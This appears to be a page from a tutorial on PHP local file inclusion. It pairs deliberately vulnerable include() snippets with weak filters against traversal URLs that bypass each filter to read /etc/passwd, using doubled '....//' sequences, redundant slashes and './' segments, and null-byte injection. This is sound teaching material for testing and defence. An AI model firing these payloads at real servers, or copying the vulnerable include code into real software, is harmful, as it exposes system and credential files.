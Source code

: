 ```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    include("/var/www/html/" . $filename);
?>
```

If it is not recursive, we can bypass this as follows:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd
```

In this way, even if the substitution removes the '../' we will still be left with a '../'.

In this case the victim tries to protect itself by using regular expressions to prevent access to '/etc/passwd':

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    if(preg_match("\/etc\/passwd/", $filename) === 1) {
        echo "\n[!] No es posible visualizar el contenido de este archivo\n";
    } else {
        include("/var/www/html/" . $filename);
    }
?>
```

We can bypass this as follows:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc///////////passwd

http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/././././passwd
```

Here the user tries to delimit by extension the files that can be added:

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    include("/var/www/html/" . $filename . ".php");
?>
```

In *older versions of PHP* you can insert a nullbyte "%00" to bypass file extensions (**Null Byte Injection**):

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd%00

http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd\0
```

